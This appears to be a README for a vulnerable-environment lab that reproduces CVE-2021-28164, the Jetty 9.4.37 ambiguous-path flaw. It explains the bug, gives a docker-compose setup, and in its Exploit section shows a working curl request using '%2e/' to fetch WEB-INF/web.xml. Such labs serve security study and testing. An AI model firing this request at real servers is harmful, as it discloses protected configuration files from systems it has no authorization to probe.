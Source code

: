 # Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-28164)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty release 9.4.37 introduced a more precise implementation of RFC3986 with regards to URI decoding, together with some new compliance modes to optionally allow support of some URI that may have ambiguous interpretation within the Servlet specified API methods behaviours. The default mode allowed % encoded . characters to be excluded for URI normalisation, which is correct by the RFC, but is not assumed by common Servlet implementations.

The default compliance mode allows requests with URIs that contain `%2e` or `%2e%2e` segments to access protected resources within the WEB-INF directory. For example a request to `/context/%2e/WEB-INF/web.xml` can retrieve the web.xml file. This can reveal sensitive information regarding the implementation of a web application.

This bug is fixed on version 9.4.39.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5

## Vulnerable Application

Execute the following command to start a Jetty 9.4.37 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page. 

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.

![](1.png)

Use `%2e/` to bypass the restriction:

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)